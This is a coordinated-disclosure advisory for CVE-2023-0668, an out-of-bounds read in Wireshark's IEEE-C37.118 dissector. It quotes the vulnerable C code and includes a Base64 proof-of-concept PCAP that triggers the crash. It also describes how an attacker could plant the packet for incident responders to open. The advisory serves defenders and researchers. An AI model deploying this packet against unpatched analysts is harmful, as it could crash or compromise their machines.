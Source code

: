 ```yaml
---
title: CVE-2023-0668
---
```



# CVE-2023-0668: Wireshark IEEE-C37.118 parsing buffer overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0668] has been assigned to this issue.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [IEEE-C37.118](https://wiki.wireshark.org/IEEE-C37.118.md) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0668] appears to be an instance of [CWE-125].

# Technical Details

This crash is caused by an out of bounds read from the global buffer `conf_phasor_type`

** Note the below array contains 17 items

`wireshark/epan/dissectors/packet-synphasor.c`
```
 363 static const value_string conf_phasor_type[] = {               
 364         { 0, "Voltage, Zero sequence"           },
 365         { 1, "Voltage, Positive sequence"       },
 366         { 2, "Voltage, Negative sequence"       },
 367         { 3, "Voltage, Reserved"                },                
 368         { 4, "Voltage, Phase A"                 },                
 369         { 5, "Voltage, Phase B"                 },
 370         { 6, "Voltage, Phase C"                 },
 371         { 7, "Voltage, Reserved"                },
 372         { 8, "Current, Zero sequence"           },
 373         { 9, "Current, Positive sequence"       },
 374         { 10, "Current, Negative sequence"      },
 375         { 11, "Current, Reserved"               },
 376         { 12, "Current, Phase A"                },
 377         { 13, "Current, Phase B"                },
 378         { 14, "Current, Phase C"                },
 379         { 15, "Current, Reserved"               },
 380         {  0, NULL                              }
 381 };
```


In `dissect_PHSCALE` (which can be found in the top frame of the stack trace.) on line 1214, the `tvb_get_guint8` function is used to retrieve 1 byte from the synphasor packet payload, and then uses that value as an index into the `conf_phasor_type` array without performing any bounds checks.

`wireshark/epan/dissectors/packet-synphasor.c`

```
1190 static gint dissect_PHSCALE(tvbuff_t *tvb, proto_tree *tree, gint offset, gint cnt)
1191 {       
1192         proto_tree *temp_tree;
1193         gint i;
1194 
1195         if (0 == cnt) {
1196                 return offset;
1197         }
1198 
1199         temp_tree = proto_tree_add_subtree_format(tree, tvb, offset, 12 * cnt, ett_conf_phconv, NULL,
1200                                                   "Phasor scaling and data flags (%u)", cnt);
1201         
1202         for (i = 0; i < cnt; i++) {
1203                 proto_tree *single_phasor_scaling_and_flags_tree;
1204                 proto_tree *phasor_flag1_tree;
1205                 proto_tree *phasor_flag2_tree;
1206                 proto_tree *data_flag_tree;
1207 
1208                 single_phasor_scaling_and_flags_tree = proto_tree_add_subtree_format(temp_tree, tvb, offset, 12,
1209                                                                                      ett_conf_phlist, NULL,
1210                                                                                      "Phasor #%u", i + 1);
1211         
1212                 data_flag_tree = proto_tree_add_subtree_format(single_phasor_scaling_and_flags_tree, tvb, offset, 4,
1213                                                                ett_conf_phflags, NULL, "Phasor Data flags: %s",
1214                                                                conf_phasor_type[tvb_get_guint8(tvb, offset + 2)].strptr);
1215         
1216                 /* first and second bytes - phasor modification flags*/
1217                 phasor_flag1_tree = proto_tree_add_subtree_format(data_flag_tree, tvb, offset, 2, ett_conf_phmod_flags,
1218                                                                   NULL, "Modification Flags: 0x%04x",
1219                                                                   tvb_get_ntohs(tvb, offset));
1220         
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

```
1MOyoQIABAAAAAAAAAAAAP9/AAD8AAAAAAAAAAAAAAAdAQAAHQEAAAAOAAh1ZHAuc
G9ydAAgAAQAABJpAAAAAKpZAKpZAAIAAADxQgAUAAAAAQAAAAIALAAAAAAAAAAAAA
9CQP8vAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAgAsAAAAAAAAAAA
AD0JA/y8AAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ABEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC4rAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAA
BRQkgUAAD3EwD/AAAAAAAAAAAAIQAAABERAQD///8AAA==
```
<br/>

# Attacker Value

By providing this poisoned IEEE C37.118 packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19087].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19087] to address.
* 2023-05-21 (Sun): Patch merged to the [release-3.6](https://gitlab.com/wireshark/wireshark/-/merge_requests/10714) and [release-4.0](https://gitlab.com/wireshark/wireshark/-/merge_requests/10713) branches of Wireshark.
* 2023-05-22 (Mon): Issue [19087] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0668] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-06 (Tue): Public disclosure of [CVE-2023-0668]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0668]: https://takeonme.org/cves/CVE-2023-0668.html
[CWE-125]: https://cwe.mitre.org/data/definitions/125.html
[meeting]: https://takeonme.org/meetings.html
[19087]: https://gitlab.com/wireshark/wireshark/-/issues/19087
[Wireshark]: https://www.wireshark.org/download.html
